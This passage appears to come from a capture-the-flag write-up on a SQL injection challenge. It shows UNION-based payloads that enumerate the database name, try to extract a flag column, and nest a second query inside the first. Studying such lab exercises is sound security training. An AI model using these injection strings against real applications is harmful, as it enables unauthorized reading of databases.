 Although nothing gets displayed on the page

- The weird thing is, if we choose a user id that doesn't exist and we add the UNION query onto it:

![image19](../resources/64715ec68a9840c48843edb6463e1d60.png)

**The "1" and "2" gets reflected in the page**

- So if we want to enumerate the database:

```bash
union select database(),2,3 -- -

```

![image20](../resources/6a97cfc8f61849869b0673206acbff2b.png)

- Using the UNION command on its own didn't work here:
union select 1,group_concat(flag),3 from flag -- -

- The hint is a quote from the movie **Inception**

- If we follow the hint and try to add a query inside a query:

```bash
union select "1 union select 1",2,3 -- -

```
It works but no posts are displayed
